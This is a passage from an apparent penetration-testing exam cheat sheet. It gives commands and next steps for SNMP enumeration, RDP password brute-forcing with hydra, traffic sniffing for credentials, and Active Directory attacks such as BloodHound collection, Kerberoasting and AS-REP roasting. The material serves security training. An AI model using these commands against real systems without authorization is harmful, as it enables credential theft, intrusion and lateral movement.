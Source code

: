 - **SNMP Enumeration**
```bash
snmpwalk -v2c -c public target.com > snmpwalk-output.txt
```
*What to look for:* System info, user accounts, network config.  
*What to do next:* Use info for further attacks or lateral movement.

- **RDP Brute Force**
```bash
hydra -t 4 -V -f -l user -P /usr/share/wordlists/rockyou.txt rdp://target.com -o hydra-rdp-output.txt
xfreerdp /u:user /p:pass /v:target.com | tee xfreerdp-output.txt
```
*What to look for:* Valid credentials, successful logins.  
*What to do next:* Log in to RDP, enumerate the system, escalate privileges.

- **Traffic Sniffing**
```bash
tcpdump -i eth0 -w capture.pcap
wireshark # Save the capture from the GUI as needed
mitmproxy -m transparent | tee mitmproxy-output.txt
```
*What to look for:* Credentials, session tokens, sensitive data in traffic.  
*What to do next:* Use captured data for further attacks or credential reuse.

**What to do next:**
- If you get credentials, try them everywhere.
- Analyze captured traffic for creds or sensitive data.

**Exam Tips:**
- Don't waste time brute-forcing if it's not working.
- Check for low-hanging fruit first (default creds, public shares, etc.).

---

## 4. Active Directory Exploitation

**Goal:** Enumerate and attack AD environments (BloodHound, kerberoasting, AS-REP roasting, etc.).

- **BloodHound Collection**
```bash
neo4j console & bloodhound &  # Start services
SharpHound.exe -c all > sharphound-output.txt  # Collect data on Windows
```
*What to look for:* User/computer relationships, attack paths, high-privilege users.  
*What to do next:* Identify attack paths, target privileged accounts for escalation.

- **Kerberoasting**
```bash
GetUserSPNs.py domain/user:pass -dc-ip x.x.x.x > getuserspns-output.txt
```
*What to look for:* Service account hashes.  
*What to do next:* Crack hashes with hashcat/john, try resulting passwords.

- **AS-REP Roasting**
```bash
GetNPUsers.py domain/ -usersfile users.txt -no-pass > getnpusers-output.txt
```
*What to look for:* Hashes for users without pre-auth.  
*What to do next:* Crack hashes, try resulting passwords.
